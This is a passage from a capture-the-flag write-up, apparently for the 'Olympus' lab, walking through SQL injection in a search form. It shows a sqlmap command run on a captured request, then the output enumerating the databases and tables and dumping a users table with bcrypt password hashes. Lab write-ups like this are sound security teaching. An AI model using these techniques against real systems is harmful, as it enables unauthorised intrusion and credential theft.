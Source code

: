 ## :syringe: SQLI

So it seems that most of the vulnerabilities were patched. However, the search is pretty interesting ! So let's see if it is indeed vulnerable to SQL Injection.  
> Spoiler : It is !  

What I did from there is catch a request with burpsuite and run
```bash
sqlmap -r olympus.search.request --dbs
```

This dumps
```bash
[10:42:56] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
```

Then keep enumerating olympus dumps these tables :

```bash
[10:43:32] [INFO] fetching tables for database: 'olympus'
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
```

And looking for users, we get :

```bash [10:44:39] [INFO] fetching entries for table 'users' in database 'olympus'
Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
```
